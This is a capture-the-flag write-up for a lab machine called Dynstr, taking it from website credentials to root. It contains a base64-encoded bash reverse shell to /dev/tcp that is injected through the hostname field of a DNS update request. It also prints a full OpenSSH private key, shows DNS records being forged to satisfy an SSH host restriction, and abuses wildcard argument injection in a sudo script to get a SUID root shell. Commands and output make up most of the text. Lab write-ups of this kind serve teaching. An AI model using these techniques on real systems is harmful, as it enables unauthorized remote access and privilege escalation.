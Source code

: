 ![DYNSTR](banner.png)

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Initial Foothold

On the website we find some credentials:
```
    Username: dynadns
    Password: sndanyd
```

And some URL:
```
    dnsalias.htb
    dynamicdns.htb
    no-ip.htb
    dyna.htb
```

Let's add those to our hostfile.

Bruteforcing directories we find /nic/update.

Posting to it with the credentials we already have returns a `nochg` which means nochange:

![nochg](nochg.png)

Googling what's happening here we find this website: https://www.noip.com/integrate/request

Let's craft a request to see if we can make it work here:

![good](good.png)


## User

Let's see if we can FUZZ it:

![nsupdate](nsupdate.png)

It seems like nsupdate is called and it fails so maybe we can inject some code here:

First we need our reverseshell like this:
```
bash -i &>/dev/tcp/10.10.14.52/4444 0>&1
```
We encode it to base64 to get something like this:
```
YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjUyLzQ0NDQgMD4mMQ==

```

Now let's change our POST to inject the code:

Set the `hostname` to 
```
`echo "YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjUyLzQ0NDQgMD4mMQ==" | base64 -d | bash`"dynadns.no-ip.htb
[20:02]
```
![injection](injection.png)

And use a netcat listener

![nc](nc.png)

We find the user.txt in /home/bindmgr/

## Root

Linpeas.sh finds some interesting files:
```
Possible private SSH keys were found!
/home/bindmgr/support-case-C62796521/strace-C62796521.txt
/home/bindmgr/support-case-C62796521/C62796521-debugging.script
```

Let's extract the SSH Key:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1
42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3
HjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F
L6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn
UOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX
CUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz
uSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a
XQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P
ZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk
+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs
4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq
xTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD
PswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k
obFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l
u291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS
TbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A
Tyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE
BNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv
C79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX
Wv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt
U96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ
b6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5
rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

And have a look at authorized_keys

```
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

Seems like it only accepts connections from `*.infra.dyna.htb`.
Luckily we can change that:

```
nsupdate -k /etc/bind/infra.key
update add hexp.infra.dyna.htb 86400 A 10.10.14.52
```
For some reason it is important to hit ENTER twice here.
Then write:
```
update add 52.14.10.10.in-addr.arpa 300 PTR hexp.infra.dyna.htb
send
```

We can now login via ssh and our extracted ssh-key id_rsa
```
ssh -i id_rsa bindmgr@10.129.48.120
```

Let's do basic enumeration:
```
bindmgr@dynstr:/tmp$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

Interesting we can execute some script as sudo. What's inside of it?

```
bindmgr@dynstr:~$ cat /usr/local/bin/bindmgr.sh
```
First the script checks if there is a .version file:
```bash
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
```
So let's create one:
```
touch .version
```
It then continues to check the version inside of it:
```bash
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi
```
So let's make it very high, to ensure ours is the "newest":
```
echo "200" > .version
```
Later the script copies a lot of files using the wildcard *
```bash
# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/
```

Which is a security risk. We can abuse this by copying bash to our current location:
```
cp /bin/bash .
```
give it our SUID:
```
chmod +s bash
```
and then create this file:
```
echo "" > --preserve=mode
```

If we execute our script now as sudo, it intereprets the filename --preserve=mode as a parameter and not as a filename because of the * wildcard being used. In this case it will cause the SUID to be kept while copying.

```
sudo /usr/local/bin/bindmgr.sh
```

Now we can cd to /etc/bind/named.bindmgr/ and see our SUID still being set:

![SUID](SUID.png)

We can now run bach with the -p parameter

![bash](bash.png)

```
./bash -p
#whoami
root
```
